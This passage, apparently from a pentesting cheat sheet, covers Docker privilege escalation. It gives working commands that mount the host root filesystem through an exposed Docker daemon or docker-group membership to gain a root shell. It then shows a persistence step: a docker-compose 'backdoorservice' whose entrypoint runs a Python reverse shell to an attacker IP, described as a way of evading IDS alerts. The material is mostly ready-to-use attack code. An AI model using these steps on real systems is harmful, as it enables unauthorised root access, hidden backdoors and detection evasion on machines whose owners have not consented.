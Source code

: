 ```sh
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cd /mnt/
```

<br />

## Root Privilege Escalation (Docker Group Required)

### 1. Check if current user belongs to "docker" group

```sh
groups
```

### 2. Check the list of images available

```sh
docker images
```

### 3. Gain root shell

Replace **“alpine”** with the docker image you found.

```sh
# -v: Volumne
# --rm: Automatically remove the container when it exits
# -it: Interective and TTY
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# or

docker run -it --entrypoint=/bin/bash -v /:/mnt/ <image>:<tag>
# e.g.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ alpine:master
```

After that, you can investigate sensitive information in the /mnt/ folders.

<br />

## Establish Persistence After PrivEsc

After that you invaded the docker container, you might be able to make it persistence while evading the IDS alerts by creating a docker compose file and abusing the entrypoint option to grant you a reverse shell.

Create a ~/docker-compose.yaml in the container.

You need to replace the `<image>`, `<local-ip>`, `<local-ip>` with your environment.

```yml
version: "2.1"
services:
  backdoorservice:
    restart: always
    image: <image>
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<local-ip>",<local-ip>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```
